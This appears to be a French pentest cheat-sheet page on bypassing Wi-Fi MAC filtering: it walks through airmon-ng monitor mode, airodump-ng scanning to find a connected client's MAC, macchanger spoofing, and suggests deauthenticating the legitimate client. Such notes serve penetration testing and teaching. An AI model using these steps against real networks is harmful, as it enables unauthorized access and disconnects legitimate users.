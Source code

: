 
> [!WARNING]
> Attention aux collisions d'adresses MAC.
> Si l'AP supporte le dual band 2.4Ghz et 5Ghz, alors possible d'éviter la collision en utilisant le 5Ghz (ou 2.4Ghz en fonction de la fréquence utilisé par le client légitime). Sinon, faire une deauth avant de s'authentifier.



 Passer en mode monitor

```shell-session
sudo airmon-ng start wlan0
```

 Scanner les réseaux disponibles afin d'identifier l'adresse MAC d'un client.

```shell-session
sudo airodump-ng wlan0mon
```

Vérifier si l'AP supporte le 5Ghz.

```shell-session
sudo airodump-ng wlan0mon --band a
```

Stopper le mode monitor

```shell-session
sudo airmon-ng stop wlan0mon
```

identifier l'adresse MAC de la carte WIFI

```shell-session
sudo macchanger wlan0
```

Désactiver la carte wifi

```shell-session
sudo ifconfig wlan0 down
```

Changer l'adresse MAC

```shell-session
sudo macchanger wlan0 -m <MAC_a_spoof>
```

Activer la carte

```shell-session
sudo ifconfig wlan0 up
```

Check de l'adresse MAC

```shell-session
ifconfig wlan0
```

Puis s'authentifier à l'AP



